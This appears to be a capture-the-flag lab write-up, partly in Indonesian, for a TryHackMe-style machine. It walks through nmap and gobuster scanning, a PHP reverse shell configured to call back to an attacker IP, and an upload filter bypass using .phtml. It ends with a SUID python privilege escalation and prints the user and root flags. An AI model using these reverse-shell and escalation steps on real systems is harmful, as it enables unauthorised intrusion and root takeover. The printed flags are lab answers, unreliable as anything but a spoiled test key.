 # Initial 
```bash
start machine

nmap -sC -sV "machines IP" -oN nmap/initial.txt
```


# Nmap Output

```
# Nmap 7.94 scan initiated Sun Jan 21 14:31:42 2024 as: nmap -sC -sV -oN nmap/initial.txt 10.10.25.147
Nmap scan report for 10.10.25.147
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 21 14:33:15 2024 -- 1 IP address (1 host up) scanned in 93.14 seconds

```

# Gobuster

Using gobuster for scanning directori web

```
gobuster dir -u http://IPMACHINE -w "wordlist-path"

found /panel dan /uploads

```

# Reverse shell 

Reverse shell I using from wordlist

```
/usr/share/webshells/php/php-reverse-shell.php

```
and I edit some parameter like IP local attacker dan port

```
et_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.23.159';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
'''
and change format file from .php to .phtml or .php3

Using NC for listening port dan reverse shell
```

```
nc -lnvp 9999

```

After upload file success, go to /uploads dan click the file 

and go back to the terminal and see nc success listening using python for stabilise shell

```python
python -c 'import pty;pty.spawn{"/bin/bash")'

```
find / -type f -name user.txt


```
the flag
THM{y0u_g0t_a_sh3ll}

```

# Privilage Escalation

```
find / -type f -user root -perm -4000 2>/dev/null

```


find the SUID binaries, and /usr/bin/python is weird, and i go https://gtfobins.github.io/ to search privelage escalation for python SUID. 

```python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

And wala, your shell become root, and the last think search the root flag


```
/root/
cat root.txt

THM{pr1v1l3g3_3sc4l4t10n}

```